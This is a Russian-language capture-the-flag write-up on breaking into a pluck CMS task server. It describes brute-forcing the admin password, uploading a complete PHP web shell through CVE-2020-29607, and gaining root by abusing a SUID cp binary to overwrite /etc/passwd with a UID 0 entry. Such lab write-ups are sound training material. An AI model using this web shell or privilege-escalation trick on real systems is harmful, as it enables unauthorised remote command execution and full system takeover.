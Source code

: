 ### Writeup`s QUEST:
___

#### Подземелье:moyai:: 
<details><summary></summary>
Описание: 

>"Мой друг разработал сайт на одном непопулярном движке. Проверь, достаточно ли он защищен. Задание перезапускается в начале каждого часа."

Что у нас есть:
* 62.173.140.174:18000 - сервис pluck
* 62.173.140.174:18022 - ssh

Проанализируем 62.173.140.174:18000. Обычно при решении таких тасков, когда дан какой-то сервис по типу Wordpress или как в данном случае pluck, стоит узнать версию и погуглить уже известную CVE, что мы и сделаем.

CVE-2020–29607 - то что удалось отыскать. Разберем, в чем же заключается уязвимость. Из описания CVE следует - Загрузка файла, Удаленное выполнение кода (с проверкой подлинности). О чем это говорит, что пользователь с правами администратора pluck может загрузить файл с вредоносным кодом, что может привести к удаленному выполнению кода.

Еще погуглив, я нашел [гайд](https://loopspell.medium.com/cve-2020-29607-remote-code-execution-via-file-upload-restriction-bypass-f5cff38d94c6), как использовать эту уязвимость. Осталось только получить права администратора в pluck.
При переходе сюда http://62.173.140.174:18000/login.php нас встречает поле для ввода пароля.

Первая мысль которая у меня появилась - брутить пароль для входа, что я и сделал с помощью intruder в BurpSuite. Оказалось, что паролем являлось слово "liverpool".

Что же дальше?
Выполняем действия, как и в [гайде](https://loopspell.medium.com/cve-2020-29607-remote-code-execution-via-file-upload-restriction-bypass-f5cff38d94c6) и загружаем web-shell.

Файл vuln.phar выглядел у меня следующим образом
```
<!----!>-->
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
Good job! Мы получили web-shell, с поощью которого можно узнать пароль для ssh. Пользователь, как выяснилось john.

Идем дальше.
После подключения по ssh, изучив немного директории, несложно понять, что флаг лежит в /root, куда у нас нет доступа.

Чтож, займемся повышением привилегий.
Читая и разбираясь нашел прикольную [статейку на habr`е](https://habr.com/ru/companies/jetinfosystems/articles/506750/).

```
find / -user root -perm -u=s -type f 2>/dev/null
```
Это выведет нам список процессов, которые мы можем запускать от root.

Среди них я нашел cp. Что говорит нам о том, что мы можем копировать passwd и shadow в директорию, из которой с помощью scp потом можем выкачать эти два файла. Имея passwd и shadow, я подумал, что стоит воспользоваться john the ripper. Как выяснилось, не стоит тратить на это время, забрутить хэш пароля у меня не получилось.

Изменим вектор атаки. Поменяем в файле passwd, который у нас есть, для пользователя john id пользователя и группы с 1000 на 0. 
Измененный файл через scp отправляем обратно в атакуемый хост. После чего с помощью cp подменяем файл passwd:

```
cp /home/john/passwd /etc/passwd
```

Таким образом получаем права root. Дальше залетаем в /root и забираем вторую часть флага.
GG
___